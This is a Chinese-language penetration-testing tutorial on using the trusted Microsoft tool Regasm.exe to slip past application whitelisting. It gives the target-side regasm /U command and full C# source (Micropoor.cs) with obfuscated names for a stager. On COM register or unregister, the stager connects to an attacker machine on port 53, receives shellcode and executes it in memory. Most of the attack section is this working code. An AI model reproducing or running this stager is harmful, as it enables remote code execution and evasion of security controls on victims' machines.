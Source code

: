 
### Regasm简介：

Regasm 为程序集注册工具，读取程序集中的元数据，并将所需的项添加到注册表中。RegAsm.exe是Microsoft Corporation开发的合法文件进程。它与Microsoft.NET Assembly Registration Utility相关联。

**说明：**Regasm.exe所在路径没有被系统添加PATH环境变量中，因此，REGASM命令无法识别。

具体参考微软官方文档：  
https://docs.microsoft.com/en-us/dotnet/framework/tools/regasm-exe-assembly-registration-tool

基于白名单Regasm.exe配置payload：

Windows 7 默认位置：
```bash
C:\Windows\Microsoft.NET\Framework\v4.0.30319\regasm.exe
```

**攻击机：**192.168.1.4 Debian  
**靶机：**192.168.1.3 Windows 7

### 配置攻击机msf：
![](media/314cbd2bd9ab4f06f2323a2cd8c0d624.jpg)

### 靶机执行：
```bash
C:\Windows\Microsoft.NET\Framework\v4.0.30319\regasm.exe /U Micropoor.dll
```
![](media/868577dc3b5b517840363527f5b5ad2b.jpg)


### 附录：Micropoor.cs
**注：x86 payload**

```csharp
using System; using System.Net; using System.Linq; using System.Net.Sockets; using System.Runtime.InteropServices; using System.Threading; using System.EnterpriseServices; using System.Windows.Forms;

namespace HYlDKsYF

{

public class kxKhdVzWQXolmmF : ServicedComponent { 

public kxKhdVzWQXolmmF() { Console.WriteLine("doge"); } 

[ComRegisterFunction]

public static void RegisterClass ( string pNNHrTZzW )

{

ZApOAKJKY.QYJOTklTwn();

} 

[ComUnregisterFunction]

public static void UnRegisterClass ( string pNNHrTZzW )

{

ZApOAKJKY.QYJOTklTwn();

}

} 

public class ZApOAKJKY

{ [DllImport("kernel32")] private static extern UInt32 HeapCreate(UInt32 FJyyNB, UInt32 fwtsYaiizj, UInt32 dHJhaXQiaqW);

[DllImport("kernel32")] private static extern UInt32 HeapAlloc(UInt32 bqtaDNfVCzVox, UInt32 hjDFdZuT, UInt32 JAVAYBFdojxsgo);

[DllImport("kernel32")] private static extern UInt32 RtlMoveMemory(UInt32 AQdEyOhn, byte[] wknmfaRmoElGo, UInt32 yRXPRezIkcorSOo);

[DllImport("kernel32")] private static extern IntPtr CreateThread(UInt32 uQgiOlrrBaR, UInt32 BxkWKqEKnp, UInt32 lelfRubuprxr, IntPtr qPzVKjdiF, UInt32 kNXJcS, ref UInt32 atiLJcRPnhfyGvp);

[DllImport("kernel32")] private static extern UInt32 WaitForSingleObject(IntPtr XSjyzoKzGmuIOcD, UInt32 VumUGj);static byte[] HMSjEXjuIzkkmo(string aCWWUttzmy, int iJGvqiEDGLhjr) {

IPEndPoint YUXVAnzAurxH = new IPEndPoint(IPAddress.Parse(aCWWUttzmy), iJGvqiEDGLhjr);

Socket MXCEuiuRIWgOYze = new Socket(AddressFamily.InterNetwork, SocketType.Stream, ProtocolType.Tcp);

try { MXCEuiuRIWgOYze.Connect(YUXVAnzAurxH); }

catch { return null;}

byte[] Bjpvhc = new byte[4];

MXCEuiuRIWgOYze.Receive(Bjpvhc, 4, 0);

int IETFBI = BitConverter.ToInt32(Bjpvhc, 0);

byte[] ZKSAAFwxgSDnTW = new byte[IETFBI + 5];

int JFPJLlk = 0;

while (JFPJLlk < IETFBI)

{ JFPJLlk += MXCEuiuRIWgOYze.Receive(ZKSAAFwxgSDnTW, JFPJLlk + 5, (IETFBI ‐ JFPJLlk) < 4096 ? (IETFBI ‐ JFPJLlk) : 4096, 0);}

byte[] nXRztzNVwPavq = BitConverter.GetBytes((int)MXCEuiuRIWgOYze.Handle);

Array.Copy(nXRztzNVwPavq, 0, ZKSAAFwxgSDnTW, 1, 4); ZKSAAFwxgSDnTW[0] = 0xBF;

return ZKSAAFwxgSDnTW;}

static void TOdKEwPYRUgJly(byte[] KNCtlJWAmlqJ) {

if (KNCtlJWAmlqJ != null) {

UInt32 uuKxFZFwog = HeapCreate(0x00040000, (UInt32)KNCtlJWAmlqJ.Lengt h, 0);

UInt32 sDPjIMhJIOAlwn = HeapAlloc(uuKxFZFwog, 0x00000008, (UInt32)KNCtlJWAmlqJ.Length);

RtlMoveMemory(sDPjIMhJIOAlwn, KNCtlJWAmlqJ, (UInt32)KNCtlJWAmlqJ.Length);

UInt32 ijifOEfllRl = 0;

IntPtr ihXuoEirmz = CreateThread(0, 0, sDPjIMhJIOAlwn, IntPtr.Zero, 0, ref ijifOEfllRl);

WaitForSingleObject(ihXuoEirmz, 0xFFFFFFFF);}} 

public static void QYJOTklTwn() {

byte[] ZKSAAFwxgSDnTW = null; ZKSAAFwxgSDnTW = HMSjEXjuIzkkmo("192.168.1.4", 53);

TOdKEwPYRUgJly(ZKSAAFwxgSDnTW);

} } }
```
>   Micropoor
